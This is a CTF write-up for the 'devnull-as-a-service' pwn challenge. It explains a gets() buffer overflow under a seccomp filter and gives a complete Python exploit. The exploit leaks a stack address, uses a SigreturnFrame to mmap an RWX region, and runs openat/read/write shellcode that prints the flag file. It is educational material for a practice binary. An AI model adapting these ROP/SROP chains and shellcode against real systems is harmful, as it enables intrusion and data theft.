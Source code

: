 ---
title: "[WRITE UP] - devnull-as-a-service"
description: 'Yes, a CTF Write up'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-01-30
tags: ['2025', 'WriteUp', 'PWN']
authors: ['K.']
draft: false
---

# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

## Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

# Leak __libc_stack_end address
def stage1():

    pl = flat([
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    ])

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

# Padding to __libc_stack_end to prepare for ret2main
def stage2():

    pl = flat([
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      ])

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# Setup and execute Sigreturn
# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat([
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    ])
    pl += bytes(frame)

    sl(pl)

# Inject payload to rwx region
def stage4():

    pl = flat([
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    ])

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

# Execute that shellcode
def stage5():

    pl = flat([
        b'A'*16,
        rwx
    ])

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795 # pop rdi; ret;
    pop_rax = 0x42193c # pop rax; ret;
    syscall = 0x40bcd6 # syscall; ret;
    rwx = 0x11000
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
